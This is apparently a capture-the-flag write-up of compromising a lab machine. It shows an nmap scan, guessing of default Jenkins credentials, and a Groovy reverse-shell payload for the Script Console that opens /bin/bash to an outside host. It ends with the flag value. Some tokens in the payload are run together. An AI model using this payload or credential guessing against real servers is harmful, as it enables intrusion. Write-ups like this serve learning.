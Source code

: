 ## ** Machine IP **
> 10.129.93.180
## ** Inference **
1. Nmap Scan `nmap -sC -sV 10.129.93.180`
2. *Jetty 9.4.39.v20210325* open on port 8080
3. Opened `10.129.93.180:8080` in browser. Offered a login screen with Jetty service.
4. Used Default credentials 
>	admin:password<br>
>	admin:admin<br>
>	root:root<br>
>	root:password<br>
>	admin:admin1<br>
>	admin:password1<br>
>	root:password1<br>
5. Signed in with credential
>	**username**:root<br>
>	**password**:password<br>
6. Using jenkins Version `Jenkins 2.289.1`
7. Manage Jenkine > Script Console
8. Accepts only grrovy script So used the following payload
	`String host="10.10.14.180";<br>
	int port=4242;<br>
	String cmd="/bin/bash";<br>
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=newSocket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStreampo=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`
## **Result**
Root Flag found in `/root/flag.txt` :- *9cdfb439c7876e703e307864c9167a15*

